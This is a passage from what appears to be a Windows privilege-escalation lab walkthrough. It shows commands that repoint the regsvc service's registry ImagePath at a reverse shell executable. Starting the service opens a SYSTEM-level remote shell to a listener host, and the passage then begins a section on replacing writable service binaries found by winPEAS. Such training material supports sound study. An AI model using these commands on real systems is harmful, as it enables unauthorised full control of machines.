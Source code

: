 ```powershell
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         ReadKey
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CIIO;GR;;;AC)(A;OICI;KR;;;AC)(A;CIIO;GR;
         ;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)(A;OICI
         ;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```

Because we have *NT AUTHORITY\INTERACTIVE* access to regsvc we can modify the key.    

2. Modify registry key and start service:
>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f   
>net start regsvc    
```powershell
PS C:\PrivEsc\tools> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f
The operation completed successfully.
PS C:\PrivEsc\tools> net start regsvc
net start regsvc
[*] Command shell session 9 opened (192.168.1.164:53 -> 192.168.1.174:52449) at 2021-10-22 16:29:32 -0400

PS C:\PrivEsc\tools> sessions 9
[*] Backgrounding session 8...
[*] Starting interaction with 9...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Insecure Service Executables
If the original service executable is modifiable by our user, then we can simply replace it with a malicious payload.

1. Find service executable that is modifiable
> winPEASany.exe quiet servicesinfo
```powershell
C:\PrivEsc\tools>.\winPEASany.exe quiet servicesinfo
.\winPEASany.exe quiet servicesinfo
 
 -- Snip --

  ========================================(Services Information)========================================

    filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
```